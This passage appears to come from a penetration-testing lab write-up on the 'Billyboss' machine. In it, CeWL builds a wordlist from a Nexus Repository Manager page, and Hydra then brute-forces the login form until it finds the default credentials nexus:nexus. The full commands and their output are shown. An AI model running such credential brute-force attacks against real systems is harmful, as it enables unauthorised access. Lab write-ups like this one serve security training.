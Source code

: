 ~~~shell
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-27 14:54:44
~~~
The brute force on the admin account was unsuccessful, so I created a custom username/password list by pulling keywords from the website using the CeWL tool
~~~shell
┌──(kali㉿kali)-[~/Desktop/Billyboss]
└─$ cewl --lowercase http://192.168.182.61:8081/ | grep -v CeWL > custom-wordlist.txt
~~~
~~~shell
┌──(kali㉿kali)-[~/Desktop/Billyboss]
└─$ cat custom-wordlist.txt                                                          
nexus
repository
manager
loading
new
image
src
http
static
rapture
resources
favicon
ico
oss
product
logo
spinner
browse
history
form
~~~

~~~shell
┌──(kali㉿kali)-[~/Desktop/Billyboss]
└─$ hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://192.168.182.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403' 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-27 15:02:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 400 login tries (l:20/p:20), ~25 tries per task
[DATA] attacking http-post-form://192.168.182.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403
[8081][http-post-form] host: 192.168.182.61   login: nexus   password: nexus
[STATUS] attack finished for 192.168.182.61 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-27 15:02:01
~~~

It found successful credentials! nexus:nexus
